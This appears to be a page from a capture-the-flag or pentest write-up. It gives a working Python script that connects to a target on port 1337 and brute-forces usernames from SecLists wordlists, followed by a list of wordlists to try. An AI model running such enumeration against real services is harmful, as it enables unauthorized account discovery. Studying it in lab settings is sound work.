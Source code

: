 _**Python script:**_

The following shows a Python script that works:

```python
#!/usr/bin/python3

import socket

HOST=<target>
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`
